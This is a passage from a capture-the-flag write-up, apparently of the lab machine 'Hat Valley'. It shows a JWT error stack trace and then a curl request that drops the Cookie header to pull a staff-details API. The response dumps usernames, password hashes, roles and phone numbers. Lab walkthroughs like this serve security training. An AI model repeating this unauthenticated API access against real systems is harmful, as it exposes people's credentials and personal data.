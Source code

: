 The dashboard page also makes a GET to http://hat-valley.htb/api/staff-details, but fails due to an invalid JWT, probably from our auth bypass by setting the cookie:

```
JsonWebTokenError: jwt malformed
    at Object.module.exports [as verify] (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:63:17)
    at /var/www/hat-valley.htb/server/server.js:151:30
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at /var/www/hat-valley.htb/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:346:12)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:280:10)
    at cookieParser (/var/www/hat-valley.htb/node_modules/cookie-parser/index.js:71:5)
```

I was able to "copy as cURL" for the staff-details request, then remove the Cookie header (no auth required!), and receive data -- and it looks quite juicy!:

```bash
$curl 'http://hat-valley.htb/api/staff-details' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://hat-valley.htb/dashboard' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   775  100   775    0     0  15509      0 --:--:-- --:--:-- --:--:-- 15816
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
```